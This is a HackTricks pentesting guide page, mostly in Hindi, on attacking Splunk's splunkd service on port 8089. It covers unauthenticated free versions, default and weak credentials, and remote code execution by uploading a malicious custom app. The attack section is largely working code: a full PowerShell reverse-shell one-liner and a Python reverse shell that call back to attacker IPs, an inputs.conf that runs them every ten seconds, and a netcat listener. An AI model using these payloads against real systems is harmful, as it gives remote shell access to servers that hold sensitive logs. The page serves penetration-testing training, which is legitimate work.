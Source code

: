 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **बुनियादी जानकारी**

Splunk एक **लॉग एनालिटिक्स टूल** है जो **डेटा को इकट्ठा करने, विश्लेषण करने और दृश्य बनाने** में महत्वपूर्ण भूमिका निभाता है। जबकि इसका प्रारंभिक उद्देश्य **SIEM (सिक्योरिटी इंफॉर्मेशन एंड इवेंट मैनेजमेंट)** टूल के रूप में कार्य करना नहीं था, यह **सुरक्षा निगरानी** और **व्यापार विश्लेषण** के क्षेत्र में लोकप्रियता प्राप्त कर चुका है।

Splunk तैनाती अक्सर **संवेदनशील डेटा** को संग्रहीत करने के लिए उपयोग की जाती हैं और यदि वे सिस्टम को समझौता करने में सफल होते हैं तो यह संभावित हमलावरों के लिए **जानकारी का एक मूल्यवान स्रोत** बन सकती हैं। **डिफ़ॉल्ट पोर्ट:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
**Splunk वेब सर्वर डिफ़ॉल्ट रूप से पोर्ट 8000 पर चलता है**।
{% endhint %}

## Enumeration

### Free Version

Splunk Enterprise परीक्षण **60 दिनों के बाद एक मुफ्त संस्करण में परिवर्तित हो जाता है**, जो **प्रमाणीकरण की आवश्यकता नहीं है**। सिस्टम प्रशासकों के लिए Splunk का परीक्षण करने के लिए एक परीक्षण स्थापित करना आम बात है, जिसे **बाद में भुला दिया जाता है**। यह स्वचालित रूप से मुफ्त संस्करण में परिवर्तित हो जाएगा जिसमें किसी भी प्रकार का प्रमाणीकरण नहीं है, जो वातावरण में एक सुरक्षा छिद्र पेश करता है। कुछ संगठन बजट की सीमाओं के कारण मुफ्त संस्करण का विकल्प चुन सकते हैं, बिना यह पूरी तरह से समझे कि उपयोगकर्ता/भूमिका प्रबंधन का न होना क्या प्रभाव डालता है।

### Default Credentials

पुराने संस्करणों में Splunk, डिफ़ॉल्ट क्रेडेंशियल्स **`admin:changeme`** होते हैं, जो लॉगिन पृष्ठ पर सुविधाजनक रूप से प्रदर्शित होते हैं।\
हालांकि, **Splunk का नवीनतम संस्करण** **स्थापना प्रक्रिया के दौरान क्रेडेंशियल्स** सेट करता है। यदि डिफ़ॉल्ट क्रेडेंशियल्स काम नहीं करते हैं, तो सामान्य कमजोर पासवर्ड जैसे `admin`, `Welcome`, `Welcome1`, `Password123`, आदि की जांच करना उचित है।

### Obtain Information

एक बार Splunk में लॉग इन करने के बाद, हम **डेटा ब्राउज़ कर सकते हैं,** **रिपोर्ट चला सकते हैं**, **डैशबोर्ड बना सकते हैं**, Splunkbase पुस्तकालय से **ऐप्लिकेशन स्थापित कर सकते हैं**, और कस्टम ऐप्लिकेशन स्थापित कर सकते हैं।\
आप कोड भी चला सकते हैं: Splunk में **कोड चलाने** के कई तरीके हैं, जैसे सर्वर-साइड Django एप्लिकेशन, REST एंडपॉइंट, स्क्रिप्टेड इनपुट, और अलर्टिंग स्क्रिप्ट। Splunk सर्वर पर रिमोट कोड निष्पादन प्राप्त करने का एक सामान्य तरीका स्क्रिप्टेड इनपुट का उपयोग करना है।

इसके अलावा, चूंकि Splunk को Windows या Linux होस्ट पर स्थापित किया जा सकता है, स्क्रिप्टेड इनपुट बनाए जा सकते हैं जो Bash, PowerShell, या Batch स्क्रिप्ट चलाते हैं।

### Shodan

* `Splunk build`

## RCE

### Create Custom Application

एक कस्टम एप्लिकेशन **Python, Batch, Bash, या PowerShell स्क्रिप्ट** चला सकता है।\
ध्यान दें कि **Splunk के साथ Python स्थापित है**, इसलिए **Windows** सिस्टम में भी आप Python कोड चला सकेंगे।

आप हमारी सहायता के लिए [**इस**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk पैकेज का उपयोग कर सकते हैं। इस रिपॉजिटरी में **`bin`** निर्देशिका में [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) और [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1) के उदाहरण हैं। चलिए इसे चरण-दर-चरण देखते हैं।

इसके लिए, हमें पहले निम्नलिखित निर्देशिका संरचना का उपयोग करके एक कस्टम Splunk एप्लिकेशन बनाना होगा:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
The **`bin`** directory में कोई भी **स्क्रिप्ट्स होंगी जिन्हें हम चलाना चाहते हैं** (इस मामले में, एक **PowerShell** रिवर्स शेल), और डिफ़ॉल्ट डायरेक्टरी में हमारा `inputs.conf` फ़ाइल होगा। हमारा रिवर्स शेल एक **PowerShell एक-लाइनर** होगा:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) फ़ाइल Splunk को **कौन सा स्क्रिप्ट चलाना है** और अन्य शर्तें बताती है। यहाँ हम ऐप को सक्षम के रूप में सेट करते हैं और Splunk को हर 10 सेकंड में स्क्रिप्ट चलाने के लिए कहते हैं। अंतराल हमेशा सेकंड में होता है, और इनपुट (स्क्रिप्ट) केवल तभी चलेगा जब यह सेटिंग मौजूद हो।
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
हमें `.bat` फ़ाइल की आवश्यकता है, जो तब चलेगी जब एप्लिकेशन तैनात किया जाएगा और PowerShell एक-लाइनर को निष्पादित करेगी।

अगला कदम `Install app from file` चुनना है और एप्लिकेशन को अपलोड करना है।

<figure><img src="../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

दुष्ट कस्टम ऐप अपलोड करने से पहले, चलिए Netcat या [socat](https://linux.die.net/man/1/socat) का उपयोग करके एक श्रोता शुरू करते हैं।
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`. जैसे ही हम एप्लिकेशन को अपलोड करते हैं, एक **reverse shell प्राप्त होता है** क्योंकि एप्लिकेशन की स्थिति स्वचालित रूप से `Enabled` में बदल जाएगी।

#### Linux

यदि हम एक **Linux host** के साथ काम कर रहे होते, तो हमें **`rev.py` Python script** को संपादित करने की आवश्यकता होती, इससे पहले कि हम tarball बनाएं और कस्टम दुर्भावनापूर्ण ऐप को अपलोड करें। प्रक्रिया का बाकी हिस्सा वही रहेगा, और हमें अपने Netcat listener पर एक reverse shell कनेक्शन प्राप्त होगा और हम दौड़ में आगे बढ़ जाएंगे।
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

इस पृष्ठ पर आप यह समझ सकते हैं कि इस सेवा का दुरुपयोग कैसे किया जा सकता है ताकि विशेषाधिकार बढ़ाए जा सकें और स्थिरता प्राप्त की जा सके:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
